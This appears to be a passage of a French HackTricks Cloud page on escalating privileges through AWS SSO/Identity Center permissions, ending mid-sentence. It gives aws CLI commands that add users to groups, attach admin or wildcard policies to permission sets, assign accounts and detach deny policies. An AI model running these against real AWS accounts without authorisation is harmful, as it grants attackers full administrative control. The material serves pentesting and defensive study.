 # AWS - SSO & Privilège d'escalade d'identitystore

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Centre d'identité AWS / SSO AWS

Pour plus d'informations sur le Centre d'identité AWS / SSO AWS, consultez :

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Notez que par **défaut**, seuls les **utilisateurs** ayant des autorisations **du compte de gestion** pourront accéder et **contrôler le Centre d'identité IAM**.\
Les utilisateurs d'autres comptes ne peuvent y accéder que si le compte est un **administrateur délégué**.\
[Consultez la documentation pour plus d'informations.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Réinitialiser le mot de passe~~

Un moyen facile d'escalader les privilèges dans des cas comme celui-ci serait d'avoir une autorisation qui permet de réinitialiser les mots de passe des utilisateurs. Malheureusement, il n'est possible que d'envoyer un e-mail à l'utilisateur pour réinitialiser son mot de passe, il faut donc avoir accès à l'e-mail de l'utilisateur.

### `identitystore:CreateGroupMembership`

Avec cette autorisation, il est possible de placer un utilisateur dans un groupe afin qu'il hérite de toutes les autorisations du groupe.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant disposant de cette autorisation pourrait accorder des autorisations supplémentaires à un ensemble de permissions qui est accordé à un utilisateur sous son contrôle.

{% code overflow="wrap" %}
```bash
# Définir une politique intégrée avec des privilèges d'administrateur
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Contenu de /tmp/policy.yaml
{
	"Version": "2012-10-17",
	"Statement": [
		{
			"Sid": "Statement1",
			"Effect": "Allow",
			"Action": ["*"],
			"Resource": ["*"]
		}
	]
}

# Mettre à jour la provision pour que la nouvelle politique soit créée dans le compte
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant disposant de cette autorisation pourrait accorder des autorisations supplémentaires à un ensemble de permissions qui est accordé à un utilisateur sous son contrôle.

{% code overflow="wrap" %}
```bash
# Définir la politique AdministratorAccess pour l'ensemble de permissions
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Mettre à jour la provision pour que la nouvelle politique soit créée dans le compte
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant disposant de cette autorisation pourrait accorder des autorisations supplémentaires à un ensemble de permissions qui est accordé à un utilisateur sous son contrôle.

{% hint style="warning" %}
Pour exploiter ces autorisations dans ce cas, vous devez connaître le **nom d'une politique gérée par le client qui se trouve dans TOUS les comptes** qui vont être affectés.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Définir la politique AdministratorAccess pour l'ensemble de permissions
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Mettre à jour la provision pour que la nouvelle politique soit créée dans le compte
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Un attaquant disposant de cette autorisation pourrait donner un ensemble de permissions à un utilisateur sous son contrôle à un compte.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Retourne les informations d'identification à court terme STS pour un nom de rôle donné qui est attribué à l'utilisateur.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Cependant, vous avez besoin d'un jeton d'accès dont je ne suis pas sûr comment l'obtenir (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Un attaquant disposant de cette autorisation peut supprimer l'association entre une politique gérée AWS de l'ensemble de permissions spécifié. Il est possible d'accorder plus de privilèges via **la suppression d'une politique gérée (politique de refus)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Un
